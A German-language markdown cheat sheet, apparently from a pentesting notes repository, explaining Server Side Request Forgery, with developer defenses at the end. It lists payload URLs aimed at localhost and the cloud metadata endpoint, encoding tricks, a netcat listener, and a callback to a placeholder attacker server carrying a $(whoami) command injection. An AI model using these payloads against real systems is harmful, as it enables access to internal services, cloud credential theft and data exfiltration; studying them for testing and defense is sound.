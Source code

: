 Inhalt für web-pentesting/ssrf.md

# 🌐 Server Side Request Forgery (SSRF)

SSRF ist eine Schwachstelle, bei der ein Angreifer den Server dazu bringt, HTTP-Anfragen zu beliebigen Zielen zu senden – z. B. interne IPs, lokale Dienste oder sogar sich selbst.

---

## 🧠 Was passiert?

Der Angreifer manipuliert eine URL-Eingabe (z. B. für ein Bild), sodass der Server intern Verbindungen herstellt – z. B.:

```http
POST /fetch?url=http://evil.com

Manipuliert zu:

POST /fetch?url=http://127.0.0.1:80

🎯 Ziele von SSRF

    Zugriff auf interne Server oder Cloud-Metadaten (169.254.169.254)

    Port-Scanning

    Zugriff auf lokale Admin-Panels

    Auslesen von Daten (Blind SSRF → über Zeit/Verhalten)

🔍 Test-URLs

http://127.0.0.1/
http://localhost/
http://169.254.169.254/latest/meta-data
http://[::1]/

Alternative Encodings:

http://127.0.0.1
http://2130706433        ← Dezimal
http://0x7f000001        ← Hex

🧪 Blind SSRF

Keine direkte Rückmeldung? → Callbacks erzeugen über:

    Burp Collaborator

    Webhook.site

    Eigener Server: nc -lnvp 80

Payloads:

http://yourcollaborator.com
http://yourserver.com/$(whoami)

🧰 Tools
Tool	Funktion
Burp Suite	Parameter testen, Repeater
Collaborator	Blind SSRF erkennen
SSRFmap	Automatisiertes Testen (Python)
HTTPX	Scanner, DNS-Tools
🛡️ Schutzmaßnahmen (für Entwickler)

    Whitelisting von erlaubten Domains/IPs

    DNS-Auflösung & IP-Validierung

    Keine Weiterleitungen zu internen Ressourcen erlauben

    Outbound-HTTP-Verbindungen strikt einschränken
